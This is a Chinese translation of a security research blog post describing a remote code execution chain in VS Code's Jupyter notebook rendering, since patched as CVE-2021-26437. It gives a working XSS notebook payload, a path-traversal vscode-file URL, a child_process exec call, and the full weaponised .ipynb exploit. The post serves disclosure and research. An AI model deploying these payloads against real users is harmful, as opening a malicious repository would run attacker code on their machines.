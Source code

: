 # Visual Studio Code Jupyter Notebook RCE · Doyensec's Blog
2022 年 10 月 27 日 - Luca Carettoni 发布

在过去的周末，我抽出了几个小时来研究[Justin Steven](https://twitter.com/justinsteven)在 2021 年 8 月发现的这个[Visual Studio Code .ipynb Jupyter Notebook 漏洞](https://github.com/justinsteven/advisories/blob/master/2021_vscode_ipynb_xss_arbitrary_file_read.md)的利用情况。[](https://twitter.com/justinsteven)

Justin 发现了一个跨站点脚本 (XSS) 漏洞，该漏洞影响 VSCode 对 Jupyter Notebook ( ) 文件的内置支持`.ipynb`。

```
{  "cells":  [  {  "cell_type":  "code",  "execution_count":  null,  "source":  [],  "outputs":  [  {  "output_type":  "display_data",  "data":  {"text/markdown":  "<img src=x onerror='console.log(1)'>"}  }  ]  }  ]  } 
```

他的分析详细说明了这个问题，并展示了从磁盘读取任意文件然后将其内容泄漏到远程服务器的概念证明，但这并不是一个完整的 RCE 漏洞利用。

> 我找不到一种方法来利用这个 XSS 原语来实现任意代码执行，但是更熟练地利用 Electron 的人也许能够做到这一点。\[…\]

鉴于我们专注于 ElectronJs（以及许多其他网络技术），我决定研究潜在的开发场所。

作为第一步，我查看了应用程序的整体设计，以确定`BrowserWindow/BrowserView/Webview`VScode 使用的每个应用程序的配置。[在ElectroNG](https://get-electrong.com/)的协助下，可以观察到应用程序使用单个`BrowserWindow`with `nodeIntegration:on`。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/74f5338d-8e93-419e-b44c-4bc4bdff4ee4.png?raw=true)

这`BrowserWindow`使用`vscode-file`协议加载内容，类似于`file`协议。不幸的是，我们的注入发生在嵌套的沙盒 iframe 中，如下图所示：

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/9daee064-7671-4173-9466-1f4ca255b20b.png?raw=true)

特别是，我们的`sandbox`iframe 是使用以下属性创建的：

```
allow-scripts allow-same-origin allow-forms allow-pointer-lock allow-downloads 
```

默认情况下，`sandbox`使浏览器将 iframe 视为来自另一个来源，即使它`src`指向同一站点。多亏了这个`allow-same-origin`属性，这个限制被取消了。只要 webview 中加载的内容也托管在本地文件系统（在 app 文件夹中），我们就可以访问该`top`窗口。有了它，我们可以简单地使用类似`top.require('child_process').exec('open /System/Applications/Calculator.app');`

那么，**我们如何将任意 HTML/JS 内容放置在应用程序安装文件夹中？**

或者，**我们可以引用该文件夹外的资源吗？**

答案来自我在最新的 Black Hat USA 2022 简报会上观看的[最近一次演示](https://i.blackhat.com/USA-22/Thursday/US-22-Purani-ElectroVolt-Pwning-Popular-Desktop-Apps.pdf)。在利用[CVE-2021-43908](https://blog.electrovolt.io/posts/vscode-rce/)时，[TheGrandPew](https://twitter.com/TheGrandPew)和[s1r1us](https://twitter.com/S1r1u5_)使用路径遍历加载 VSCode 安装路径之外的任意文件。

`vscode-file://vscode-app/Applications/Visual Studio Code.app/Contents/Resources/app/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/somefile.html`

与他们的利用类似，我们可以尝试利用 a`postMessage`的回复来泄露当前用户目录的路径。事实上，我们的 payload 可以与触发 XSS 的 Jupyter Notebook 文件一起放置在恶意存储库中。

经过几个小时的反复试验，我发现我们可以`img`通过在事件期间强制执行来获取触发 XSS 的标签的引用`onload`。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/d5f177a5-e5a7-4044-be0b-fc40b6069a17.png?raw=true)

这样，所有的成分都准备好了，我终于可以组装最终的 exploit 了。

```
var apploc = '/Applications/Visual Studio Code.app/Contents/Resources/app/'.replace(/ /g, '%20');
var repoloc;
window.top.frames[0].onmessage = event => {
    if(event.data.args.contents && event.data.args.contents.includes('<base href')){  
        var leakloc = event.data.args.contents.match('<base href=\"(.*)\"')[1];
        var repoloc = leakloc.replace('https://file%2B.vscode-resource.vscode-webview.net','vscode-file://vscode-app'+apploc+'..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..');
        setTimeout(async()=>console.log(repoloc+'poc.html'), 3000)
        location.href=repoloc+'poc.html';
    }
};
window.top.postMessage({target: window.location.href.split('/')[2],channel: 'do-reload'}, '*'); 
```

要在文件中传递此有效负载，`.ipynb`我们还需要克服最后一个限制：当前的实现会导致格式错误的 JSON。注入发生在一个 JSON 文件（双引号）中，我们的 Javascript 有效负载包含带引号的字符串以及用作提取路径的正则表达式的定界符的双引号。

经过一些修改后，最简单的解决方案涉及反引号 ` 字符而不是所有 JS 字符串的引号。

最终`pocimg.ipynb`文件如下所示：

```
{  "cells":  [  {  "cell_type":  "code",  "execution_count":  null,  "source":  [],  "outputs":  [  {  "output_type":  "display_data",  "data":  {"text/markdown":  "<img src='a445fff1d9fd4f3fb97b75202282c992.png' onload='var apploc = `/Applications/Visual Studio Code.app/Contents/Resources/app/`.replace(/ /g, `%20`);var repoloc;window.top.frames[0].onmessage = event => {if(event.data.args.contents && event.data.args.contents.includes(`<base href`)){var leakloc = event.data.args.contents.match(`<base href=\"(.*)\"`)[1];var repoloc = leakloc.replace(`https://file%2B.vscode-resource.vscode-webview.net`,`vscode-file://vscode-app`+apploc+`..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..`);setTimeout(async()=>console.log(repoloc+`poc.html`), 3000);location.href=repoloc+`poc.html`;}};window.top.postMessage({target: window.location.href.split(`/`)[2],channel: `do-reload`}, `*`);'>"}  }  ]  }  ]  } 
```

通过使用此文件打开恶意存储库，我们最终可以触发我们的代码执行。

  
内置的 Jupyter Notebook 扩展选择退出Visual Studio Code 1.57 中引入的_Workspace Trust_功能提供的保护，因此不需要进一步的用户交互。郑重声明，此问题已在 VScode 1.59.1 中得到修复，Microsoft为其分配了[CVE-2021-26437 。](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26437)